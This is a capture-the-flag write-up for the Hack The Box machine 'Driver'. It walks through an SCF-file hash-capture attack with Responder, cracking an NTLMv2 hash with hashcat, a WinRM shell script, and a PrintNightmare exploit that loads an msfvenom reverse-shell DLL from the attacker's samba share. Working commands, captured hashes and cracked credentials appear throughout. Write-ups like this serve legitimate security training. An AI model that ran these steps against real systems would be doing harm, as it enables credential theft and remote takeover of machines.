

```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m02s, deviation: 0s, median: 7h00m01s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-04T01:10:44
|_  start_date: 2021-10-04T00:33:16

```
## Foothold

Visiting `http://driver.htb` asks for credentials. Default credentials `admin:admin` work here. We find an upload page on `http://driver.htb/fw_up.php` and it says `Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.`. So it seemed like whatever we upload there will be stored in a smb share.

Searching on google for `smb share malicious file` will lead us quickly to [this blog post](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) where it explains SCF (Shell Command Files).

We just follow the blog post by creating a file named `@test.scf` with this content:
```
[Shell]
Command=2
IconFile=\\10.10.14.46\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```


Where the IP in the `IconFile` parameter is obviously our attackers machines ip.


Simultaneously we start up responder like this: 

```
sudo responder -wrf --lm -v -I tun0
```

We then wait for `tony` to click on our malicious file and see the output in our responder terminal:

```
[SMB] NTLMv2 Client   : 10.129.232.64
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:f81bdbf6c7d0f0ca:65B9199BA507A0527EC0E2B37D92E67A:0101000000000000EFF256BCC5B8D70195CB086D9C02990C00000000020000000000000000000000
```

## User

We can then proceed to crack this NTLMv2 Hash using hashcat like this:

```sh
hashcat -m 5600 'tony::DRIVER:f81bdbf6c7d0f0ca:65B9199BA507A0527EC0E2B37D92E67A:0101000000000000EFF256BCC5B8D70195CB086D9C02990C00000000020000000000000000000000' ~/Desktop/Scripts/wordlists/rockyou.txt  
```

We will get these credentials: `tony:liltony`.

After another google-fu we found [another blog](https://www.hackingarticles.in/winrm-penetration-testing/) which we followed to use our credentials and get a shell on the machine.

We used [this ruby script](https://alionder.net/winrm-shell/).

```ruby
require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://IP:5985/wsman',
  user: 'Tony',
  password: 'liltony',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

And install winrm like this:
```
gem install winrm
```

Now run it like this: `ruby winrm-shell.rb`.


We can now navigate to `C:\Users\tony\Desktop` and cat the user flag.

## Root

Since the PrintNightmare had a comeback recently and this machine was already about printers and driver we just went straight for the [PoC](https://github.com/cube0x0/CVE-2021-1675) and ran it like this:
```sh
python3 nightmare.py DRIVER/tony:liltony@10.129.232.84 '\\10.10.14.46\public\new.dll'
```

We created the malicious `new.dll` with msfvenom:
```sh
sudo msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=4444 -f dll > /var/public/new.dll
```

and hosted it on a public available samba share `/var/public/`.
To create such share we edited our `/etc/samba/smb.conf` to allow guests and define the path so it looks like this:

```
[public]
comment = Public Directories
path = /var/public
guest ok = Yes
```

and restarted samba with this command `sudo systemctl restart smbd.service`.

Now we only need to wait for our shell to pop in our listener in `msfconsole`.
To setup the listener just use `exploit/multi/handler` and set the payload, LPORT and LHOST to values you used to create the dll with msfvenom.